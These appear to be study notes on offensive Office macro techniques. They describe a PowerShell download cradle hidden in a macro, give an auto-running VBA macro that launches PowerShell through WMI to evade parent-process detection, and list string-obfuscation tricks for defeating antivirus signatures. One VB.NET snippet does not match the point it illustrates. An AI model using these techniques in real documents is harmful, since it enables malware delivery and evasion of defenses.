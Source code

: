 - Download cradle: hide a `powershell -exec bypass -nop -c iex()` inside a macro as a starting point
- call Shell stringArg, vbHide which will trigger some AV products
- problem is that Powershell becomes a child process of the calling MS Office program
- _Windows Management Instrumentation_ (WMI) framework can be leveraged to move around this
	- "**Windows Management Instrumentation** (**WMI**) consists of a set of extensions to the [Windows Driver Model](https://en.wikipedia.org/wiki/Windows_Driver_Model "Windows Driver Model") that provides an [operating system](https://en.wikipedia.org/wiki/Operating_system "Operating system") interface through which [instrumented](https://en.wikipedia.org/wiki/Instrumentation_(computer_programming) "Instrumentation (computer programming)") components provide information and notification." (https://en.wikipedia.org/wiki/Windows_Management_Instrumentation)
- Leverage WMI for process creation bypassing of MS Office and use WMI for the parent process
- To create a process, will need to use Win32_Process to instantiate
```vb
Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```
- this will create a child Powershell process of the parent process Wmiprvse.exe

### TODO: re 64 vs 32 bit code (need to test this out)

- to circumvent running powershell in 32-bit mode on 64-bit system, one can use the Sysnative directory
- The **Sysnative** folder is only available in a 64-bit Windows
```powershell
%windir%\sysnative\WindowsPowerShell\v1.0\powershell.exe -file myScript.ps1
```
- can try checking directory and if exists, run 64-bit; otherwise, run 32-bit
```vb
If My.Computer.FileSystem.DirectoryExists("C:\backup\logs") Then
    Dim logInfo = My.Computer.FileSystem.GetDirectoryInfo(
        "C:\backup\logs")
End If
```


### TODO: check out EvilClippy

#### Obfuscation methods:

- StrReverse (string reverse) to break signature detection of WMI calls, etc...
- create a function that just calls StrReverse so that VBA code isn't littered with StrReverse calls 
- convert strings to charcode and encrypt the string
- obfuscate variable and function names
